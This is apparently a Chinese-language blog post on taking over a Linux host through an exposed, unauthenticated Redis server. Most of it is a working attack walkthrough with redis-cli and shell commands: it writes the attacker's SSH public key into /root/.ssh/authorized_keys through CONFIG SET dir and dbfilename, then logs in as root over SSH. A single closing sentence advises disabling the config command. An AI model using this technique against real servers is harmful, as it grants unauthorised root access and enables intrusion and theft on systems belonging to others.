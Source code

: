 ```yaml
---
layout: post
title: "通过redis漏洞入侵系统"
date: 2018-03-06
comments: false
categories: 运维
---
```


熟悉linux ssh应该知道可以在authorized_keys添加自己的共有密钥以达到免密码登录系统的目的。本文将展现如何通过redis漏洞达到入侵系统的目的。

### 前提

redis 开放端口：0.0.0.0:6379

```bash
smou:_posts $ ps x|grep redis
29251   ??  S      0:00.04 /usr/local/opt/redis/bin/redis-server 0.0.0.0:6379
```

### 入侵过程

* 1. 创建公钥~/.ssh/id_rsa.pub，有则跳过
```bash
ssh-keygen -t rsa
```
一路确认就行

* 2. 生成前面带有双换行的临时文件
进入~/.ssh/
```bash
echo -n -e '\n\n' > 2 && cat id_rsa.pub >>2
```

* 3. 入侵

```bash
# 设置key, crackit = 2文件内容
cat 2 | redis-cli -h 192.168.12.101 -x set crackit 

# 连接服务器
redis-cli -h 192.168.12.101

# 设置目录（注意是用户的home目录，不一定root）
config set dir /root/.ssh

# 设置文件名
config set dbfilename authorized_keys

# 保存
save
```

* 4. 表演的时刻

这时候通过 ssh root@192.168.12.101 就能进入系统，接下来就可以为所欲为.

### 总结

所以使用redis，注意关闭config功能，否则，就要等着哭了。
